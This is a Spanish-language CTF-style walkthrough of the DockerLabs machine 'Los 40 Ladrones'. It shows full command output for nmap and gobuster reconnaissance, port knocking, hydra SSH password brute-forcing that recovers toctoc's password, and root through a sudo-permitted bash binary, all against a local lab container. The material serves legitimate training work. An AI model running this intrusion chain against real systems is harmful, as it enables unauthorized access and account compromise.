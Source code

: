 #MAQUINA #DOCKERLABS #FACIL 
#PORT_KNOCKING
<hr>

# RECONOCIMIENTO

Vamos a resolver **Los 40 Ladrones** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 15:57 CET
Initiating ARP Ping Scan at 15:57
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 15:57, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 15:57
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 15:57, 26.40s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000022s latency).
Scanned at 2024-12-03 15:57:09 CET for 27s
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.60 seconds
           Raw packets sent: 131091 (5.768MB) | Rcvd: 29 (1.696KB)

```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** abierto.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80 172.17.0.2                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 15:58 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000022s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.30 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-03 15:58 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000020s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 4.64 seconds

```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos lo siguiente con gobuster:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg     
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10792]
/qdefense.txt         (Status: 200) [Size: 111]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================


```

Hay un archivo **qdefense.txt** con lo siguiente:
   ```bash
   
Recuerda llama antes de entrar , no seas como toctoc el maleducado
7000 8000 9000
busca y llama +54 2933574639

```

Hace alusión a un posible **port-knocking** que lo que hace es securizar el puerto ssh.
Posible usuario -> **toctoc**
# EXPLOTACION

Tras el knock, debemos tener acceso al puerto 22 (SSH):
   ```bash
   
knock 172.17.0.2 7000 8000 9000

```

Usamos **hydra** para intentar sacar su contraseña:

   ```bash
hydra -l toctoc -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-03 16:04:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[STATUS] 433.00 tries/min, 433 tries in 00:01h, 14344008 to do in 552:08h, 22 active
[22][ssh] host: 172.17.0.2   login: toctoc   password: kittycat
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-03 16:07:06

```
**usuario : toctoc**
**contraseña: kittycat**

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
toctoc@d8e986a185a6:~$ sudo -l
[sudo] password for toctoc: 
Matching Defaults entries for toctoc on d8e986a185a6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User toctoc may run the following commands on d8e986a185a6:
    (ALL : NOPASSWD) /opt/bash
    (ALL : NOPASSWD) /ahora/noesta/function


```

Vemos **bash** con permisos SUDO :
   ```bash
toctoc@d8e986a185a6:~$ sudo /opt/bash
root@d8e986a185a6:/home/toctoc# whoami
root
root@d8e986a185a6:/home/toctoc# 
```

**YA ESTAMOS COMO ROOT.**